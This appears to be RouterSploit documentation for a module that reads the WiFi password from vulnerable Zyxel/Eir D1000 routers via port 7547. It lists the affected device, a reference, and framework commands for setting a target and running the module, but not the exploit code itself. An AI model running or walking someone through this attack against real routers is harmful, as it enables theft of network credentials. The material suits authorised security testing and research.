 # Zyxel Eir D1000 WiFi Password Disclosure

## Description
Module exploits WiFi Password Disclosure vulnerability in Zyxel/Eir D1000 devices.If the target is vulnerable it allows to read WiFi password.

## Authors
* Xiphos http://www.xiphosresearch.com/ # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://github.com/XiphosResearch/exploits/tree/master/tr-06fail](https://github.com/XiphosResearch/exploits/tree/master/tr-06fail)

## Vulnerable devices
* Zyxel EIR D1000

## Usage
```
rsf > use exploits/zyxel/d1000_wifi_password_disclosure
rsf (Zyxel Eir D1000 WiFi Password Disclosure) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       7547                 Target port


rsf (Zyxel Eir D1000 WiFi Password Disclosure) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Zyxel Eir D1000 WiFi Password Disclosure) > run
[*] Running module...
```
